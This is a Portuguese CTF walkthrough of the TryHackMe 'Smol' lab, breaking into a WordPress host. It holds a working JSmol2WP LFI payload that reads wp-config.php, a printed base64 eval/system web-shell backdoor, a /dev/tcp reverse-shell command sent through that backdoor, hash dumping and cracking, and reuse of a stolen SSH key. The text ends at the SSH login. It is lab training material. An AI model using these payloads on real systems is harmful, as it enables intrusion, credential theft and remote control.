





# Smol
## Sobre a máquina
Trata-se de uma máquina Linux, rodando um WordPress com  o plugin **JSmol2WP** vulnerável. Para escalação de privilégios encontramos múltiplos usuários, inclusive configuração estranha do arquivo  `/etc/pam.d/su` até chegar no `root` de fato.

| **Sistema Opracional** | Linux                                   |
| ---------------------- | --------------------------------------- |
| **Dificuldade**        | Medium                                  |
| **Vulnerabilidades**   | WordPress (JSmol2WP) LFI                |
| **Link**               | [Smol](https://tryhackme.com/room/smol) |

# Atacando...
## Recon...
Para quem já me acompanha sabe que eu curto primeiro sempre fazer um scan mais simples e depois fazer um scan mais elaborado, em uma rede muito grande, sair fazendo um **script scan (-sC)** de primeira não seria uma boa, então, use os CTFs para ir treinando esse mindset.

Vamos começar com um SYN scan para identificar todas as portas abertas da máquina: 
`sudo nmap -sS -v -p- --min-rate 5000 10.64.130.219 -oN nmap/first.txt`

Dando uma olhada no resultado:
```plaintext
# Nmap 7.95 scan initiated Mon Mar  9 15:53:59 2026 as: /usr/lib/nmap/nmap -sS -v -p- --min-rate 5000 -oN nmap/first.txt 10.64.158.156
Nmap scan report for 10.64.158.156
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Certo, tudo normal por enquanto. Vamos aprofundar esse scan para ver se achamos algo mais interessante! 

`sudo nmap -sCV -v -p22,80 10.64.158.156 -oN nmap/versions.txt` 

Vamos olhar os resultados agora:

```plaintext
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 58:a4:4d:70:15:6f:7c:68:b4:37:f3:f6:7a:c6:bf:dd (RSA)
|   256 79:f5:42:95:de:74:be:7b:e2:fa:19:ef:4a:17:ad:a4 (ECDSA)
|_  256 8b:e2:63:2c:b7:34:19:aa:c2:70:d4:f1:50:e7:5d:09 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://www.smol.thm
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Certo, vemos um domínio ali `www.smol.thm`, isso é bom! Adicionando no arquivo `hosts` e acessando a página, vemos uma espécie de blog:

 

Interessante! Para identificar algumas tecnologias usadas pela aplicação, podemos usar algumas formas, mas gosto de usar o `whatweb` é rápido e via terminal mesmo: 

```plaintext
┌──(kali㉿kali)-[~/Documents/thm]
└─$ whatweb http://www.smol.thm
http://www.smol.thm [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[admin@smol.thm], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.64.130.219], JQuery[3.7.1], MetaGenerator[WordPress 6.7.1], Script[importmap,module], Title[AnotherCTF], UncommonHeaders[link], WordPress[6.7.1]
``` 

## JSmol2WP LFI

Interessante! Vemos um WordPress por trás. Certo, antes de mais nada vamos tentar identificar plugins que possam estar sendo utilizados por ele, poderíamos usar o `wpscan`, e use, caso queira, mas acabei achando esse comando [aqui](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/wordpress.html)  e me serviu bem:

```plaintext
┌──(kali㉿kali)-[~/Documents/thm]
└─$ curl -H 'Cache-Control: no-cache, no-store' -L -ik -s http://www.smol.thm | grep -E 'wp-content/plugins/' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2

"http://www.smol.thm/wp-content/plugins/jsmol2wp/JSmol.min.nojq.js?ver=14.1.7_2014.06.09" id="jsmol.min.nojq-js"></script>
```
Hmm, se você der uma pesquisada sobre esse plugin e suas vulnerabilidades (pesquise, faz parte do nosso trabalho) encontrará uma série de vulnerabilidades. Aqui nesse [link](https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt) você encontra a PoC para elas.

Como já falei por aqui, é sempre interessante pensar em **impacto** e levar em consideração o cenário da aplicação. Portanto, no nosso caso aqui, o LFI seria mais interessante!

Seguindo a PoC de LFI, vemos que deu certo:

```plaintext
┌──(kali㉿kali)-[~/Documents/thm]
└─$ curl 'http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php'
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

/**#@+
 * Authentication unique keys and salts.
 *
 * Change these to different unique phrases! You can generate these using
 * the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}.
 *
 * You can change these at any point in time to invalidate all existing cookies.
 * This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

/**#@-*/

/**
 * WordPress database table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/documentation/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* Add any custom values between this line and the "stop editing" line. */


/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';

```

Excelente! E de quebra ainda conseguimos visualizar o `wp-config.php` da aplicação. Esse arquivo contém credenciais, então é sempre interessante tentar olhar ele!

E olhando, vemos um usuário chamado **wpuser** e a sua senha. Vamos testar no painel de login do WordPress e ver se conseguimos algo (os caminhos geralmente são padrões, no caso da máquina aqui eu achei em `www.smol.thm/wp-login.php` ): 

 

Show demais! Conseguimos! 

Ao mexermos um pouco, indo em páginas, vemos algumas páginas desabilitadas. 

Veja: 



Clicando em uma delas, você vê algo interessante:



Quando você vai lendo, você percebe um trecho nos informando sobre olhar o código do plugin **Hello Dolly** do WordPress em busca de *backdoors*, em CTFs é bem comum usarmos esse plugins para implantar backdoors e conseguir acesso a máquina. 

```plaintext
1- [IMPORTANT] Check Backdoors: Verify the SOURCE CODE of "Hello Dolly" plugin as the site's code revision.
```

Sabendo disso, nossa tática vai ser a seguinte: nós jã temos um LFI, podemos usá-lo para ver se conseguimos ter acesso ao código fonte do plugin. Se você pesquisar um pouco (pesquise ou jogue no ChatGPT: Hello Dolly WordPress path), você verá que o nome do arquivo é `hello.php`, sabendo disso, e usando o LFI para tentar encontrar, veja que conseguimos!

```plaintxt
┌──(kali㉿kali)-[~/Documents/thm/smol]
└─$ curl 'http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php' 

<?php
/**
 * @package Hello_Dolly
 * @version 1.7.2
 */
/*
Plugin Name: Hello Dolly
Plugin URI: http://wordpress.org/plugins/hello-dolly/
Description: This is not just a plugin, it symbolizes the hope and enthusiasm of an entire generation summed up in two words sung most famously by Louis Armstrong: Hello, Dolly. When activated you will randomly see a lyric from <cite>Hello, Dolly</cite> in the upper right of your admin screen on every page.
Author: Matt Mullenweg
Version: 1.7.2
Author URI: http://ma.tt/
*/

function hello_dolly_get_lyric() {
        /** These are the lyrics to Hello Dolly */
        $lyrics = "Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
I feel the room swayin'
While the band's playin'
One of our old favorite songs from way back when
So, take her wrap, fellas
Dolly, never go away again
Hello, Dolly
Well, hello, Dolly
It's so nice to have you back where you belong
You're lookin' swell, Dolly
I can tell, Dolly
You're still glowin', you're still crowin'
You're still goin' strong
I feel the room swayin'
While the band's playin'
One of our old favorite songs from way back when
So, golly, gee, fellas
Have a little faith in me, fellas
Dolly, never go away
Promise, you'll never go away
Dolly'll never go away again";

        // Here we split it into lines.
        $lyrics = explode( "\n", $lyrics );

        // And then randomly choose a line.
        return wptexturize( $lyrics[ mt_rand( 0, count( $lyrics ) - 1 ) ] );
}

// This just echoes the chosen line, we'll position it later.
function hello_dolly() {
        eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));

        $chosen = hello_dolly_get_lyric();
        $lang   = '';
        if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {
                $lang = ' lang="en"';
        }

        printf(
                '<p id="dolly"><span class="screen-reader-text">%s </span><span dir="ltr"%s>%s</span></p>',
                __( 'Quote from Hello Dolly song, by Jerry Herman:' ),
                $lang,
                $chosen
        );
}

// Now we set that function up to execute when the admin_notices action is called.
add_action( 'admin_notices', 'hello_dolly' );

// We need some CSS to position the paragraph.
function dolly_css() {
        echo "
        <style type='text/css'>
        #dolly {
                float: right;
                padding: 5px 10px;
                margin: 0;
                font-size: 12px;
                line-height: 1.6666;
        }
        .rtl #dolly {
                float: left;
        }
        .block-editor-page #dolly {
                display: none;
        }
        @media screen and (max-width: 782px) {
                #dolly,
                .rtl #dolly {
                        float: none;
                        padding-left: 0;
                        padding-right: 0;
                }
        }
        </style>
        ";
}

add_action( 'admin_head', 'dolly_css' );

``` 

E olha que interessante, perceba que temos uma linha meio incomum para um plugin, não acha? 

```plaintext
        eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));

```
Geralmente `eval()` não é sinônimo de coisa boa. Vamos decodificar para ver do que se trata essa string:

```plaintext
┌──(kali㉿kali)-[~/Documents/thm/smol]
└─$ echo 'CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=' | base64 -d

 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } 
```

Hmmm, `system()` também não é sinônimo de coisa boa... Pegando essa string e jogando no ChatGPT você verá que se trata da string "cmd". Pois é, essa é a *backdoor*! E já que ela existe lá, vamos nos aproveitar dela para conseguir acesso a máquina! 

Mas antes, precisamos achar uma página da aplicação que execute esse plugin, e se você reparou bem, o painel administrativo carrega esse plugin, veja: 

 

Percebeu? Isso é bom! Portanto, para saber se realmente vai dar certo, faremos o seguinte: 

1. Setaremos um servidor web com Python: `python3 -m http.server`
2. Usaremos o seguinte payload: `http://www.smol.thm/wp-admin/index.php?cmd=curl+http://<seu_ip>:8000`

E testando o payload, veja que funcionou! 

```plaintext
┌──(kali㉿kali)-[~/Documents/thm/smol]
└─$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.65.162.82 - - [10/Mar/2026 11:55:32] "GET / HTTP/1.1" 200 -

``` 

## www-data shell

Excelente! Agora podemos pegar uma shell reversa, vou usar o payload:
`sh -i >& /dev/tcp/<seu_ip>/9001 0>&1`

Transforme para **Base64** e use da seguinte forma: 
`http://www.smol.thm/wp-admin/index.php?cmd=echo+<string_em_base64>|base64+-d|bash` 

E veja que funcionou! 
```plaintext
┌──(kali㉿kali)-[~/Documents/thm/smol]
└─$ nc -lnvp 9001 
listening on [any] 9001 ...
connect to [REMOVIDO] from (UNKNOWN) [10.65.162.82] 55832
sh: 0: can't access tty; job control turned off
$ 
```  

Caso queira uma shell mais estável: 

```plaintext
┌──(kali㉿kali)-[~/Documents/thm/smol]
└─$ nc -lnvp 9001 
listening on [any] 9001 ...
connect to [REMOVIDO] from (UNKNOWN) [10.65.162.82] 55832
sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@ip-10-65-162-82:/var/www/wordpress/wp-admin$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                   
┌──(kali㉿kali)-[~/Documents/thm/smol]
└─$ stty raw -echo && fg
[1]  + continued  nc -lnvp 9001
                               reset
reset: unknown terminal type unknown
Terminal type? screen


www-data@ip-10-65-162-82:/var/www/wordpress/wp-admin$ 

```

Caso não tenha entendido:

1. Primeiro digite `script /dev/null -c bash` 
2. Depois aperte CTRL+Z
3. Logo em seguida digite `stty raw -echo && fg`
4. Digite `reset`
5. E por fim digite `screen`

E pronto, terás uma shell mais estável!

## Diego shell + User flag
Neste ponto, talvez você deve ter tentado ir até a home dos usuários e tentado alguma coisa, mas verás que não conseguimos nada dessa forma. Pode executar o `pspy64` também, não verás nada de tão interessante! 

Dando uma olha para ver se achamos algum serviço interno rodando, vemos o MySQL: 
```plaintext
www-data@ip-10-65-162-82:/home$ ss -lntp
State   Recv-Q   Send-Q     Local Address:Port      Peer Address:Port  Process  
LISTEN  0        4096       127.0.0.53%lo:53             0.0.0.0:*              
LISTEN  0        128              0.0.0.0:22             0.0.0.0:*              
LISTEN  0        151            127.0.0.1:3306           0.0.0.0:*              
LISTEN  0        70             127.0.0.1:33060          0.0.0.0:*              
LISTEN  0        128                 [::]:22                [::]:*              
LISTEN  0        511                    *:80                   *:*   
``` 

O que é de se esperar, visto que temos um WordPress executando. Lembra das credenciais que pegamos no `wp-config.php`? Vamos usá-las para tentar se conectar no MySQL e ver se conseguimos alguma coisa lá! 

Veja que conseguimos:

```plaintext
$ mysql -uwpuser -p'kbLSF2Vop#lw3rjDZ629*Z%G'          
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 104
Server version: 8.0.42-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2025, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
``` 

Excelente! Se você dar uma mexida no banco de dados, encontrará a tabela `wp_users` que contém usuários e as hashes de suas senhas usadas para logar no WordPress: 

```plaintext
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wordpress          |
+--------------------+
5 rows in set (0.00 sec)

mysql> use wordpress
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> list tables;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'list tables' at line 1
mysql> show tables;
+---------------------------+
| Tables_in_wordpress       |
+---------------------------+
| wp_bp_activity            |
| wp_bp_activity_meta       |
| wp_bp_invitations         |
| wp_bp_messages_messages   |
| wp_bp_messages_meta       |
| wp_bp_messages_notices    |
| wp_bp_messages_recipients |
| wp_bp_notifications       |
| wp_bp_notifications_meta  |
| wp_bp_optouts             |
| wp_bp_xprofile_data       |
| wp_bp_xprofile_fields     |
| wp_bp_xprofile_groups     |
| wp_bp_xprofile_meta       |
| wp_commentmeta            |
| wp_comments               |
| wp_links                  |
| wp_options                |
| wp_postmeta               |
| wp_posts                  |
| wp_signups                |
| wp_term_relationships     |
| wp_term_taxonomy          |
| wp_termmeta               |
| wp_terms                  |
| wp_usermeta               |
| wp_users                  |
| wp_wysija_campaign        |
| wp_wysija_campaign_list   |
| wp_wysija_custom_field    |
| wp_wysija_email           |
| wp_wysija_email_user_stat |
| wp_wysija_email_user_url  |
| wp_wysija_form            |
| wp_wysija_list            |
| wp_wysija_queue           |
| wp_wysija_url             |
| wp_wysija_url_mail        |
| wp_wysija_user            |
| wp_wysija_user_field      |
| wp_wysija_user_history    |
| wp_wysija_user_list       |
+---------------------------+
42 rows in set (0.00 sec)

mysql> 

``` 

E olhando o conteúdo dessa tabela, conseguimos algumas hashes de senhas:

```plaintext
mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url            | user_registered     | user_activation_key | user_status | display_name           |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+  
|  1 | admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. | admin         | admin@smol.thm     | http://www.smol.thm | 2023-08-16 06:58:30 |                     |           0 | admin                  |          
|  2 | wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. | wp            | wp@smol.thm        | http://smol.thm     | 2023-08-16 11:04:07 |                     |           0 | wordpress user         |
|  3 | think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ | think         | josemlwdf@smol.thm | http://smol.thm     | 2023-08-16 15:01:02 |                     |           0 | Jose Mario Llado Marti |
|  4 | gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 | gege          | gege@smol.thm      | http://smol.thm     | 2023-08-17 20:18:50 |                     |           0 | gege                   |
|  5 | diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 | diego         | diego@local        | http://smol.thm     | 2023-08-17 20:19:15 |                     |           0 | diego                  |
|  6 | xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 | xavi          | xavi@smol.thm      | http://smol.thm     | 2023-08-17 20:20:01 |                     |           0 | xavi                   |
+----+------------+------------------------------------+---------------+--------------------+---------------------+---------------------+---------------------+-------------+------------------------+
6 rows in set (0.00 sec)
``` 

Para melhorar a visualização, visto que só queremos os usernames e hashes: 

```plaintext
mysql> select user_login,user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. |
| wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. |
| think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ |
| gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 |
| diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 |
| xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 |
+------------+------------------------------------+
6 rows in set (0.00 sec)
``` 

A sacada agora vai ser tentar quebrar essas hashes, conseguir alguma senha e tentar um **Password Reuse** dentro do sistema, para tentarmos conseguir uma shell com algum usuário!

Pegue todas essas hashes, coloque em um arquivo de texto e tente quebrar com o John, caso sua máquina não tenha uma GPU dedicada, o `John` pode ser uma melhor escolha ao invés do `hashcat`, essa dica foi dada pela descrição da máquina. 

Caso queira saber qual o tipo de hash indicar para o `john` ou `hashcat` use esse [site](https://gist.github.com/CalfCrusher/6b87a738d0fe7b88e04f4a36eb6d722d) lá pesquise por "wordpress".  

Use a wordlist `rockyou.txt` como de lei em CTFs, e deixe rolar um pouco, vai demorar. 

Mas, para te poupar tempo, a senha que conseguiremos é a do usuário **Diego**: `sandiegocalifornia (diego)` 

Agora podemos logar ocmo Diego!

```plaintext
www-data@ip-10-65-137-214:/home$ su diego
Password: 
diego@ip-10-65-137-214:/home$ 
``` 
Excelente! Agora é só pegar a **user flag.** 

## Think shell
Com o usuário Diego conseguimos ter acesso ao diretório de um outro usuário: **think**. E se você reparou bem, no diretório dele conseguimos a private key para logar no SSH com esse usuário, veja:

```plaintext
diego@ip-10-65-137-214:/home/think$ ls -lah
total 32K
drwxr-x--- 5 think internal 4.0K Jan 12  2024 .
drwxr-xr-x 8 root  root     4.0K Mar 10 16:47 ..
lrwxrwxrwx 1 root  root        9 Jun 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 think think     220 Jun  2  2023 .bash_logout
-rw-r--r-- 1 think think    3.7K Jun  2  2023 .bashrc
drwx------ 2 think think    4.0K Jan 12  2024 .cache
drwx------ 3 think think    4.0K Aug 18  2023 .gnupg
-rw-r--r-- 1 think think     807 Jun  2  2023 .profile
drwxr-xr-x 2 think think    4.0K Jun 21  2023 .ssh
lrwxrwxrwx 1 root  root        9 Aug 18  2023 .viminfo -> /dev/null
diego@ip-10-65-137-214:/home/think$ cd .ssh
diego@ip-10-65-137-214:/home/think/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
diego@ip-10-65-137-214:/home/think/.ssh$  
```
Pegue a `id_rsa` e passe para sua máquina (um copy e paste mesmo), depois dê as devidas permissões (`chmod 600 id_rsa` )  e logo como o usuário **think**:

```language
┌──(kali㉿kali)-[~/Documents/thm/smol]
└─$ chmod 600 id_rsa 
                                                                                   
┌──(kali㉿kali)-[~/Documents/thm/smol]
└─$ ssh -i id_rsa think@www.smol.thm
The authenticity of host 'www.smol.thm (10.65.137.214)' can't be established.
ED25519 key fingerprint is: SHA256:nU+TGOBMmv0Vy0EPP5L3kfpNfFNRHT/LeG+xUmzAlEs
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'www.smol.thm' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue 10 Mar 2026 05:00:13 PM UTC

  System load:  0.16              Processes:             127
  Usage of /:   70.1% of 9.75GB   Users logged in:       0
